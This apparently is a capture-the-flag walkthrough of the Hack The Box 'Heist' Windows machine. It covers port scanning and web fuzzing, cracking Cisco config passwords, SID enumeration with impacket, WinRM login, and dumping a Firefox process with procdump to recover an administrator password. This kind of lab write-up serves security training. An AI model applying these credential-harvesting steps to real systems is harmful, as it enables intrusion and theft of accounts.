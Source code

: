 ```yaml
---
title: "Hackthebox Heist Walkthrough"
date: 2024-01-01 15.00 
categories: [Hackthebox, Windows]
tags: [procdump]
author: Ap4sh
image: /assets/img/posts/heist/heist.png
---
```

## Reconnaissance

As always we do, let's start with nmap scanning.

```bash
Ap4sh@kali:~/htb/heist$ sudo nmap -sC -sV -oN nmap/hesit-top-ports 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 06:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.076s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 12m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-03T10:31:08
|_  start_date: N/A


```

We have 3 ports open which are default http and smb service ports. On smb we cannot do anything for now. It's required authentication. 

There is a login page which is written in PHP on HTTP service. We can visit there by following 80 port. Doing fuzzing process we can see what kind of files we reach on web server.

```bash
Ap4sh@kali:~/htb/heist$ gobuster dir -u http://heist.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt,html,sql
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://heist.htb
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,sql
[+] Timeout:        10s
===============================================================
2021/07/03 06:33:13 Starting gobuster
===============================================================
/login.php (Status: 200)
/images (Status: 301)
/js (Status: 301)
/index.php (Status: 302)
/css (Status: 301)
/attachments (Status: 301)
/. (Status: 302)
/errorpage.php (Status: 200)
/issues.php (Status: 302)

```

There is a lot file that we can check but once we login as guest user, we'll see a conversation between Hazard and Support Admin. Once we click attachment link we can see there are usernames and encoded passwords which are seem like belonging to Cisco Router config file. After cracking the passwords we'll get following decoded passwords.

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 -> stealth1agent
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
```

We can list shared folders with `Hazard` and `stealth1agent` credentials but we have no access on these folders.

```bash
Ap4sh@kali:~/htb/heist$ smbmap -H 10.10.10.149 -u 'Hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: heist.htb                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC


```


For more enumeration I tried enum4linux tool but `SID` is required for these creds. After that I used one of the impacket tools called `lookupsid.py` for user enumeration and found there are many user such as Chase, Jason etc.

```bash
Ap4sh@kali:~/htb/heist$ python3 lookupsid.py Hazard:stealth1agent@heist.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at heist.htb
[*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

Now we can try passwords that we found before on these users. On smb I could not get access again. After a full port scanning we can see there is another port which is 5985.

```bash
Ap4sh@kali:~/htb/heist$ nmap -sV -p- heist.htb -oN nmap/heist-all-ports -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 07:18 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 07:18
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.074s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


## Getting Initial Access

We can try to get initial access with the usernames and passwords on this port via evil-winrm. 

![Getting Access](/assets/img/posts/heist/access.png)

After some searching on the box I saw there is firefox.exe and there are running processes that belong to firefox.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> ps                                                                                                       
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                                                                                                                                      
-------  ------    -----      -----     ------     --  -- -----------                                                                                               
    355      25    16352     297340       0.09   6100   1 firefox          
   1049      77   206088     559208       7.91   6644   1 firefox          
    347      19     9968      34768       0.08   6752   1 firefox
    401      36    51716     111188       1.14   6880   1 firefox
    378      30    35104      71328       0.88   7152   1 firefox  
```

Let's upload `procdump` and dump one of these process.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> upload procdump64.exe                                                                                                                                                          
Info: Uploading procdump64.exe to C:\Users\Chase\Desktop\procdump64.exe                    
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> dir                           
Mode                LastWriteTime         Length Name             
----                -------------         ------ ----
-a----         7/3/2021   5:24 PM         384888 procdump64.exe             
-a----        4/22/2019   9:08 AM            121 todo.txt   
-a----        4/22/2019   9:07 AM             32 user.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop>./procdump64.exe -accepteula -ma 6100

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:40:02] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp
[17:40:02] Dump 1 writing: Estimated dump file size is 298 MB.
[17:40:03] Dump 1 complete: 298 MB written in 0.4 seconds
[17:40:03] Dump count reached.


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> download firefox.exe_210703_174002.dmp
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp to firefox.exe_210703_174002.dmp

```

## Privilege Escalation

After got this dump, we can see human readable text with string command and we can search whatever we want.

```bash
Ap4sh@kali:~/htb/heist$ strings firefox.exe_210703_174002.dmp | grep -n "login_password"
844:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2304:RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2356:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

As final step, once we use this password with Administrator account we can get full privilige on the system.

![Getting Admin Privileges](/assets/img/posts/heist/getting_admin.png)
